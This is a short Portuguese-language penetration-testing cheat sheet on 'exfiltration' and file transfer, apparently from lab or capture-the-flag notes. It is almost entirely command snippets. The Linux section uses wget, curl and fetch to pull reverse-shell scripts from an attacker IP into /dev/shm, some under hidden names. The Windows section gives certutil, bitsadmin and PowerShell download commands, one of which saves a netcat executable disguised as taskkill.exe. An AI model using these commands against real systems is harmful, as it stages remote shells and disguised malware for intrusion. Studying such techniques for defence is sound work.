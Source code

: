 # Exfiltração

## Copiar e Colar Base64

#### Linux

```bash
base64 -w0 <arquivo> # Codifica o arquivo
base64 -d arquivo # Decodifica o arquivo
```

#### Windows

```text
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```

## HTTP

#### Linux

```bash
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py
fetch 10.10.14.14:8000/shell.py # FreeBSD
```

#### Windows

```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
bitsadmin /transfer transfName /priority high http://exemplo.com/arquivoexemplo.pdf C:\downloads\arquivoexemplo.pdf

#PS
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"

Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
#OU
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
```

### Upload de arquivos

\*\*\*\*[**SimpleHttpServerWithFileUploads**](https://gist.github.com/UniIsland/3346170)\*\*\*\*
